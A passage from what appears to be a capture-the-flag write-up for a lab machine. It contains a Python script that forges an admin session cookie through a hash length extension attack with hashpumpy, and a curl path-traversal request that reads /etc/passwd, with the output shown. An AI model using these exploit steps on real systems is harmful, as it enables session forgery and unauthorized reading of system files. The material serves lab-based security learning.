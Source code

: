 ```python

# We know the key length is between 8 and 15
for i in range(7, 16):
    (digest, message) = hashpumpy.hashpump(guest_sign.hex(), guest_data, ADMIN_SESSION, i) 
    admincookie = b64encode(message).decode("utf-8") + "." + b64encode(binascii.unhexlify(digest)).decode('utf-8')
    req = requests.get(ENDPOINT, cookies = { "auth" : admincookie } )     
    if req.status_code != 403:
        print(f"[+] FOUND: {admincookie}")
        exit(0)

print(f"[+] Not found :(")
```

Editing the cookie in our browser will give us access as admin! Yay! Now we can use those sweet Flask routes that we were unable to use before, such as:

![image-20201103001310789](/assets/intense/image-20201103001310789.png)

Let's curl a little:

```bash
curl -X POST --cookie "$ADMIN_COOKIE" --data "logfile=../../../../../etc/passwd" "http://10.10.10.195/admin/log/view"
...
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
user:x:1000:1000:user:/home/user:/bin/bash
web:x:1001:1001:::/bin/false
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
...
```
